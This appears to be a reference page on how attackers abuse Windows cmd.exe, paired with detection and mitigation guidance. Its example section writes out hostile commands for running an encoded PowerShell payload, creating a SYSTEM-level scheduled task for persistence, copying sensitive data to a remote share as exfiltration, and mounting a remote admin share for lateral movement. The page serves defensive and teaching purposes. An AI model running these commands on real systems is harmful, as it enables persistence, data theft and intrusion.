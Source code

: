# cmd.exe
## What is it?
*```cmd.exe``` (Command Prompt) is a **built-in Windows command-line interpreter** that allows users to execute commands and run batch scripts.*
*It is used for file management, system configuration, network diagnostics, and many other administrative tasks. As a core component of the Windows operating system, it is widely trusted and often overlooked by security tools.*

## Legitimate Usage
- **System Management** → Execute administrative tasks such as file manipulation, system settings, and network configurations.
- **Script Execution** → Run batch files (.bat) or command scripts to automate routine tasks.
- **Network Diagnostics** → Use commands like ```ping```, ```ipconfig```, and ```netstat``` for troubleshooting network issues.
- **File Management** → Copy, move, delete, and manipulate files and directories.

## How to abuse it
- **Bypass Security Controls** → As a trusted utility, ```cmd.exe``` is often used by attackers to bypass security controls or execute malicious commands without triggering alerts.
- **Privilege Escalation** → Attackers can use ```cmd.exe``` to escalate privileges, modify user rights, or invoke other system tools to gain elevated access.
- **Persistence** → ```cmd.exe``` can be used to create scripts that persist across reboots or run at startup, maintaining access to compromised systems.
- **Data Exfiltration** → Attackers can use ```cmd.exe``` to move sensitive data off the system via file transfers, or by creating network shares for unauthorized data movement.
- **Command and Control (C2) Communication** → Attackers can use ```cmd.exe``` to interact with their C2 servers through network protocols, exfiltrating data or receiving commands.

## Example attacks
### 1. Running Malicious Commands
*Attackers can use ```cmd.exe``` to run malicious commands or execute scripts on the target system.*

**Execute Malicious Payload**

```
cmd.exe /c powershell -encodedcommand <encoded_payload>
```

**Effect:**
- Executes a PowerShell command or malicious payload silently, bypassing some detection systems.

### 2. Bypassing Security Controls with cmd.exe
*Since ```cmd.exe``` is trusted, attackers can use it to bypass security restrictions and launch other malicious tools or payloads.*

**Launch Malicious Executable from a Trusted Location**

```
cmd.exe /c C:\Windows\System32\trusted.exe
```

**Effect:**
- Executes a malicious program from a trusted location, avoiding detection by security tools.

### 3. Persistence via Scheduled Tasks
*Attackers can use ```cmd.exe``` to create scheduled tasks that persist even after system reboots.*

**Create a Scheduled Task to Run Malicious Command**

```
schtasks /create /tn "MaliciousTask" /tr "cmd.exe /c C:\malicious\payload.bat" /sc onlogon /ru SYSTEM
```

**Effect:**
- Runs a malicious command every time the user logs on, ensuring persistence across reboots.

### 4. Data Exfiltration via cmd.exe
*Attackers can use ```cmd.exe``` to exfiltrate data from the compromised system.*

**Move Sensitive Data to Remote Server**

```
cmd.exe /c copy C:\SensitiveData*.* \192.168.1.100\share
```

**Effect:**
- Copies sensitive data to a remote network share, exfiltrating it to the attacker's server.

### 5. Lateral Movement Using cmd.exe
*Attackers can use ```cmd.exe``` to interact with other systems on the network, exploiting the trust of the command line.*

**Use cmd.exe to Access Remote System via SMB**

```
cmd.exe /c net use \192.168.1.50\C$ /user:admin password
```

**Effect:**
- Connects to a remote system's admin share to move files or execute commands on the remote machine.

# Detection & Mitigation
## Detection Methods
**Monitor cmd.exe Execution**
- **Event ID 4688 (New Process Creation)** → Detect the execution of ```cmd.exe```, especially if it is invoked with unusual parameters or from suspicious locations.
- **Monitor for Unusual Commands** → Look for signs of suspicious commands or use of ```cmd.exe``` in combination with other tools to exploit system weaknesses.

**File Integrity Monitoring**
- **Check for Malicious Scripts** → Ensure that any scripts executed by ```cmd.exe``` are not unauthorized or malicious.

**Monitor Network Connections**
- **Event ID 5156 (Windows Filtering Platform)** → Look for suspicious outbound connections initiated via ```cmd.exe```, especially to external IPs or unknown C2 servers.

## Mitigation Strategies
- **Application Control** → Use application whitelisting or security policies to restrict the execution of ```cmd.exe``` and other command-line tools to trusted users.
- **User Privileges** → Limit the use of ```cmd.exe``` by non-administrative users to prevent unauthorized system modifications.
- **Monitor Scheduled Tasks** → Regularly audit scheduled tasks to detect unauthorized commands running on system startup or logon.
- **Use EDR Solutions** → Employ endpoint detection and response (EDR) tools that can detect suspicious command-line activity or tools used for lateral movement.
